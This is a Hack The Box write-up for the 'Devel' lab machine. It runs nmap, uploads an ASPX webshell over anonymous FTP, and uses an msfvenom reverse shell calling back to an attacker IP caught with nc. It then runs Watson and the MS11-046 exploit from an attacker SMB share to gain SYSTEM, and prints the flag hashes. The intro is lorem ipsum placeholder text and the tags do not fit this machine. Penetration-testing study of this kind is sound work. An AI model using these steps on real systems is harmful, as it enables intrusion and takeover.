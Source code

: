 ```yaml
---
layout: single
title: Devel - Hack The Box
excerpt: "Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."
date: 2021-02-16
classes: wide
header:
  teaser: /assets/images/htb-writeup-devel/devel_logo.png
  teaser_home_page: true
  icon: /assets/images/htb.png
categories:
  - hackthebox
  - infosec
tags:  
  - osticket
  - mysql
  - mattermost
  - hashcat
  - rules
---
```


![](/assets/images/htb-writeup-devel/devel_logo.png)

"Lorem Ipsum is simply dummy text of the printing and typesetting industry. Lorem Ipsum has been the industry's standard dummy text ever since the 1500s, when an unknown printer took a galley of type and scrambled it to make a type specimen book. It has survived not only five centuries, but also the leap into electronic typesetting, remaining essentially unchanged. It was popularised in the 1960s with the release of Letraset sheets containing Lorem Ipsum passages, and more recently with desktop publishing software like Aldus PageMaker including versions of Lorem Ipsum."

----------------


   ██╗   ██╗███████╗███████╗██████╗
   ██║   ██║██╔════╝██╔════╝██╔══██╗
   ██║   ██║███████╗█████╗  ██████╔╝
   ██║   ██║╚════██║██╔══╝  ██╔══██╗
   ╚██████╔╝███████║███████╗██║  ██║
    ╚═════╝ ╚══════╝╚══════╝╚═╝  ╚═╝

1. [root:/git/htb/devel]# nmap -Pn -n -sCV 10.10.10.5 --open                                                                         (master✱)
    PORT   STATE SERVICE VERSION
    21/tcp open  ftp     Microsoft ftpd
    | ftp-anon: Anonymous FTP login allowed (FTP code 230)
    | 03-18-17  01:06AM       <DIR>          aspnet_client
    | 03-17-17  04:37PM                  689 iisstart.htm
    |_03-17-17  04:37PM               184946 welcome.png
    | ftp-syst:
    |_  SYST: Windows_NT
    80/tcp open  http    Microsoft IIS httpd 7.5
    | http-methods:
    |_  Potentially risky methods: TRACE
    |_http-server-header: Microsoft-IIS/7.5
    |_http-title: IIS7
    Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

   DIRB:
   ==> DIRECTORY: http://10.10.10.5/aspnet_client/

   NIKTO:
   + Allowed HTTP Methods: OPTIONS, TRACE, GET, HEAD, POST


2. The FTP server is open for anonymous login, let see what we can do there.

  [root:/git/htb/devel]# ftp  10.10.10.5                                                                                            (master✱)
    Connected to 10.10.10.5.
    220 Microsoft FTP Service
    Name (10.10.10.5:root): anonymous
    331 Anonymous access allowed, send identity (e-mail name) as password.
    Password:
    230 User logged in.
    Remote system type is Windows_NT.
    ftp> ?
      Commands may be abbreviated.  Commands are:

      !		dir		mdelete		qc		site
      $		disconnect	mdir		sendport	size
      account		exit		mget		put		status
      append		form		mkdir		pwd		struct
      ascii		get		mls		quit		system
      bell		glob		mode		quote		sunique
      binary		hash		modtime		recv		tenex
      bye		help		mput		reget		tick
      case		idle		newer		rstatus		trace
      cd		image		nmap		rhelp		type
      cdup		ipany		nlist		rename		user
      chmod		ipv4		ntrans		reset		umask
      close		ipv6		open		restart		verbose
      cr		lcd		prompt		rmdir		?
      delete		ls		passive		runique
      debug		macdef		proxy		send

   We have the option to 'put' (upload) files to the ftp, and looking around it seems like we are in webroot.
   Lets upload a webshell and browse to it. Since it's not a .php-server, lets upload a .aspx-shell.

   ftp> put aspxshell.aspx
    local: aspxshell.aspx remote: aspxshell.aspx
    200 PORT command successful.
    125 Data connection already open; Transfer starting.
    226 Transfer complete.
    5273 bytes sent in 0.00 secs (22.0558 MB/s)

   Go to http://10.10.10.5/aspxshell.aspx to enumerate the box further.

   > whoami
     iis apppool\web


3. Instead of looking around in a webshell, lets create a reverse aspx payload and upload it to the box.

    [root:/git/htb/devel]# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.10 LPORT=4488 -f aspx > rev.aspx                      (master✱)
      [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
      [-] No arch selected, selecting arch: x86 from the payload
      No encoder specified, outputting raw payload
      Payload size: 324 bytes
      Final size of aspx file: 2721 bytes

   Browse to http://10.10.10.5/rev.aspx to trigger the rev-shell.

    [root:/git/htb/devel]# nc -lvnp 4488                                                                                              (master✱)
      listening on [any] 4488 ...
      connect to [10.10.14.10] from (UNKNOWN) [10.10.10.5] 49158
      Microsoft Windows [Version 6.1.7600]
      Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

      c:\windows\system32\inetsrv>whoami
        iis apppool\web

  I can't find any vulnerabilities by just looking around. Watson is a Windows exploit suggester that we can run from a locally
  hosted SMB server. Download pre-compiled Watson and execute it on the victim, through your SMB-server.

  [root:/srv/pub-share]# service smbd start
  [root:/srv/pub-share]# cp /opt/winPE/binaries/watson/WatsonNet3.5AnyCPU.exe .

  c:\inetpub\wwwroot>\\10.10.14.10\pub-share\WatsonNet3.5AnyCPU.exe
      __    __      _
     / / /\ \ \__ _| |_ ___  ___  _ __
     \ \/  \/ / _` | __/ __|/ _ \| '_ \
      \  /\  / (_| | |_\__ \ (_) | | | |
       \/  \/ \__,_|\__|___/\___/|_| |_|

                               v0.1

                      Sherlock sucks...
                       @_RastaMouse

     [*] OS Build number: 7600
     [*] CPU Address Width: 32
     [*] Process IntPtr Size: 4
     [*] Using Windows path: C:\WINDOWS\System32

      [*] Appears vulnerable to MS10-073
       [>] Description: Kernel-mode drivers load unspecified keyboard layers improperly, which result in arbitrary code execution in the kernel.
       [>] Exploit: https://www.exploit-db.com/exploits/36327/
       [>] Notes: None.

      [*] Appears vulnerable to MS10-092
       [>] Description: When processing task files, the Windows Task Scheduler only uses a CRC32 checksum to validate that the file has not been tampered with.Also, In a default configuration, normal users can read and write the task files that they have created.By modifying the task file and creating a CRC32 collision, an attacker can execute arbitrary commands with SYSTEM privileges.
       [>] Exploit: https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/local/ms10_092_schelevator.rb
       [>] Notes: None.

      [*] Appears vulnerable to MS11-046
       [>] Description: The Ancillary Function Driver (AFD) in afd.sys does not properly validate user-mode input, which allows local users to elevate privileges.
       [>] Exploit: https://www.exploit-db.com/exploits/40564/
       [>] Notes: None.

      [*] Appears vulnerable to MS12-042
       [>] Description: An EoP exists due to the way the Windows User Mode Scheduler handles system requests, which can be exploited to execute arbitrary code in kernel mode.
       [>] Exploit: https://www.exploit-db.com/exploits/20861/
       [>] Notes: None.

      [*] Appears vulnerable to MS13-005
       [>] Description: Due to a problem with isolating window broadcast messages in the Windows kernel, an attacker can broadcast commands from a lower Integrity Level process to a higher Integrity Level process, thereby effecting a privilege escalation.
       [>] Exploit: https://github.com/rapid7/metasploit-framework/blob/master/modules/exploits/windows/local/ms13_005_hwnd_broadcast.rb
       [>] Notes: None.

     [*] Finished. Found 5 vulns :)


4. We are presented with various vulnerabilities, MS11-046 sounds great as it "allows local users to elevate privileges" which is
   exatly what we want. Upload the malicious .exe to your local SMB server and execute it on the remove host.

   [root:/srv/pub-share]# cp /opt/windows-kernel-exploits/MS11-046/ms11-046.exe .
   [root:/srv/pub-share]# chmod +x ms11-046.exe

   c:\inetpub\wwwroot>\\10.10.14.10\pub-share\ms11-046.exe
    \\10.10.14.10\pub-share\ms11-046.exe

    c:\Windows\System32>whoami
      nt authority\system

    C:\Users\babis\Desktop>type user.txt.txt
      9ecdd6a3aedf24b41562fea70f4cb3e8

    C:\Users\Administrator\Desktop>type root.txt
      e621a0b5041708797c4fc4728bc72b4b


██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██████╗  ██████╗  ██████╗ ████████╗
   ██╔══██╗██╔═══██╗██╔═══██╗╚══██╔══╝
   ██████╔╝██║   ██║██║   ██║   ██║
   ██╔══██╗██║   ██║██║   ██║   ██║
   ██║  ██║╚██████╔╝╚██████╔╝   ██║
   ╚═╝  ╚═╝ ╚═════╝  ╚═════╝    ╚═╝


1. -

██████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████████

   ██╗███╗   ██╗███████╗ ██████╗ ██████╗ ███╗   ███╗ █████╗ ████████╗██╗ ██████╗ ███╗   ██╗
   ██║████╗  ██║██╔════╝██╔═══██╗██╔══██╗████╗ ████║██╔══██╗╚══██╔══╝██║██╔═══██╗████╗  ██║
   ██║██╔██╗ ██║█████╗  ██║   ██║██████╔╝██╔████╔██║███████║   ██║   ██║██║   ██║██╔██╗ ██║
   ██║██║╚██╗██║██╔══╝  ██║   ██║██╔══██╗██║╚██╔╝██║██╔══██║   ██║   ██║██║   ██║██║╚██╗██║
   ██║██║ ╚████║██║     ╚██████╔╝██║  ██║██║ ╚═╝ ██║██║  ██║   ██║   ██║╚██████╔╝██║ ╚████║
   ╚═╝╚═╝  ╚═══╝╚═╝      ╚═════╝ ╚═╝  ╚═╝╚═╝     ╚═╝╚═╝  ╚═╝   ╚═╝   ╚═╝ ╚═════╝ ╚═╝  ╚═══╝

Pre-compiled Watson Binaries:
  https://github.com/carlospolop/winPE

Windows Kernel Exploits:
  https://github.com/SecWiki/windows-kernel-exploits
